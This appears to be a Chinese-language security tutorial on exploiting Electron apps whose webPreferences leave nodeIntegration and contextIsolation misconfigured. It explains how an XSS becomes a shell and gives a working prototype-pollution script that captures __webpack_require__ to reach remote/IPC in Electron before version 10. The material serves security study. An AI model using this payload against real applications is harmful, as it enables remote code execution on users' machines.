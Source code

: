   

 **NI为true, CISO为 false，无沙箱**

这种情况是最简单的情况，允许了页面之间访问nodejs共享库，并且没有开启沙箱。只要我们能获取目标应用的一个XSS漏洞，就能直接通过访问NodeJS共享库，升级为XSS漏洞

  

在man.js中webPreferences中配置了nodeIntegration为true,
contextIsolation为false，默认情况下nodeIntegration为true,沙箱就会关闭

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221110215728.png)

  

script直接执行nodejs代码，即可获取shell

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221110215730.png)

  

 **NI为false, CISO为false，SBX为false**

在这种情况下，相比于第一种情况，虽然关闭了Nodejs集成，导致我们不能在web页面上下文访问Nodejs共享库。但是因为上下文隔离没有开启，web页面和preload.js处于同一上下文中，导致我们可以通过污染原型链，获取preload,js的函数，进行ipcmain调用，命令执行等

  

原型链污染获取__webpack_require__

通过如下代码进行原型链污染，可以获取到__webpack_require__函数，进而引入remote/IPC进行进一步利用

    
    
    <script>  
      const origEndWith = String.prototype.endsWith;  
      String.prototype.endsWith = function(...args) {  
        if (args && args[0] === "/electron") {  
          String.prototype.endsWith = origEndWith;  
          return true;  
        }  
        return origEndWith.apply(this, args);  
      }  
      
      const origCallMethod = Function.prototype.call;  
      Function.prototype.call = function(...args){  
        if(args[3] && args[3].name === "__webpack_require__") {  
          window.__webpack_require__ = args[3];  
          Function.prototype.call = origCallMethod;  
        }  
        return origCallMethod.apply(this, args);  
      }  
      console.log(window.__webpack_require__);  
    </script>  
    

  

版本限制

Electron<10

\- 可以使用原型链污染获取remote/IPC模块
